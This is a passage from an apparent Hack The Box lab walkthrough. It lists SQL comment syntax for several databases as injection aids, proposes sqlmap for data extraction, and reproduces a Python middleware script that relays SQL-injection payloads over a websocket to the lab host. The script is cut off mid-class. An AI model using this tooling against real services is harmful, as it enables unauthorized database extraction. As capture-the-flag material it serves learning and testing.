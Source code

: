 ```sql
MySQL
#comment
-- comment     [Note the space after the double dash]
/*comment*/
/*! MYSQL Special SQL */

PostgreSQL
--comment
/*comment*/

MSQL
--comment
/*comment*/

Oracle
--comment

SQLite
--comment
/*comment*/

HQL
HQL does not support comments
```

Now that we know it, we can try to use sqlmap to make it extract all the informations, the only problem is that we can’t simply insert the `URL` as a `POST` request, we have to ways that we can follow.

We can either use only Sqlmap as the HTB Walktrough suggest, or use this code provided by a user on [github](https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html)

MIddleWare Server

```python
from http.server import SimpleHTTPRequestHandler
from socketserver import TCPServer
from urllib.parse import unquote, urlparse
from websocket import create_connection

ws_server = "ws://soc-player.soccer.htb:9091"

def send_ws(payload):
	ws = create_connection(ws_server)
	# If the server returns a response on connect, use below line	
	#resp = ws.recv() # If server returns something like a token on connect you can find and extract from here
	
	# For our case, format the payload in JSON
	message = unquote(payload).replace('"','\'') # replacing " with ' to avoid breaking JSON structure
	data = '{"id":"%s"}' % message

	ws.send(data)
	resp = ws.recv()
	ws.close()

	if resp:
		return resp
	else:
		return ''

def middleware_server(host_port,content_type="text/plain"):

	class CustomHandler(SimpleHTTPRequestHandler):
```